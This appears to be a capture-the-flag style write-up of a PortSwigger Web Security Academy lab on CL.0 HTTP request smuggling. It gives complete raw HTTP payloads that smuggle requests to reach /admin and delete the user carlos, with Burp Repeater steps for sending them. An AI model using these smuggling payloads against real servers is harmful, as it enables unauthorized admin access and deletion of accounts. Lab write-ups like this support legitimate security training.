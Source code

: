 # CL.0 request smuggling
# Objective
This lab is vulnerable to CL.0 request smuggling attacks. The back-end server ignores the `Content-Length` header on requests to some endpoints.

To solve the lab, identify a vulnerable endpoint, smuggle a request to the back-end to access to the admin panel at `/admin`, then delete the user `carlos`.

This lab is based on real-world vulnerabilities discovered by PortSwigger Research. For more details, check out Browser-Powered Desync Attacks: A New Frontier in HTTP Request Smuggling.


# Solution
## Analysis
### Confirming that /admin path exists

|![](Images/image-77.png)|
|:--:| 
| *Path /admin exists and is blocked* |

### CL.0 attempt
HTTP status code `404 Not Found` confirms `CL.0` vulnerability.

Steps that lead to smuggled request execution:
1. Create one tab in Repeater.
2. Prepare test payload.
3. Change the `Connection` header to `keep-alive` in test payload request.
4. Add test payload and normal request to the tab (order of requests matters!).
5. Use `Send group in sequence (single connection)`.

Test payload: 
```
POST /resources/images/avatarDefault.svg HTTP/1.1
Host: 0ad8006c03e8b69d818b395e0055004f.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Cookie: session=vEnXJsKnqDiUy2W70SJA3cySZnHDOjBx
Connection: keep-alive 
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

GET /smuggled HTTP/1.1
Foo: x
```

Normal request:
```
GET / HTTP/1.1
Host: 0ad8006c03e8b69d818b395e0055004f.web-security-academy.net
Cookie: session=vEnXJsKnqDiUy2W70SJA3cySZnHDOjBx
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://portswigger.net/
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

|![](Images/image-78.png)|
|:--:| 
| *Preparing payload* |
|![](Images/image-79.png)|
| *Sending payload - Request was smuggled successfuly* |

## Exploitation

First request poisoned the back-end. Second request (normal request) was added to the end of the previous request - the `GET <sth> HTTP/1.1` was ignored thanks to `Foo` header and smuggled request was executed.

Both of these requests was sent in single connection (`Connection: keep-alive`).

Payload 1:
```
POST /resources/images/avatarDefault.svg HTTP/1.1
Host: 0ad8006c03e8b69d818b395e0055004f.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Cookie: session=vEnXJsKnqDiUy2W70SJA3cySZnHDOjBx
Connection: keep-alive 
Content-Type: application/x-www-form-urlencoded
Content-Length: 27

GET /admin HTTP/1.1
Foo: x
```

Payload 2: 
```
POST /resources/images/avatarDefault.svg HTTP/1.1
Host: 0ad8006c03e8b69d818b395e0055004f.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Cookie: session=vEnXJsKnqDiUy2W70SJA3cySZnHDOjBx
Connection: keep-alive 
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

GET /admin/delete?username=carlos HTTP/1.1
Foo: x
```

Normal request:
```
GET / HTTP/1.1
Host: 0ad8006c03e8b69d818b395e0055004f.web-security-academy.net
Cookie: session=vEnXJsKnqDiUy2W70SJA3cySZnHDOjBx
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://portswigger.net/
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

|![](Images/image-80.png)|
|:--:| 
| *Sending payload 1 - Request was smuggled successfuly* |
|![](Images/image-81.png)|
| *Preparing payload 2* |
|![](Images/image-82.png)|
| *Sending payload 2 - Request was smuggled successfuly - Deletion of user Carlos* |

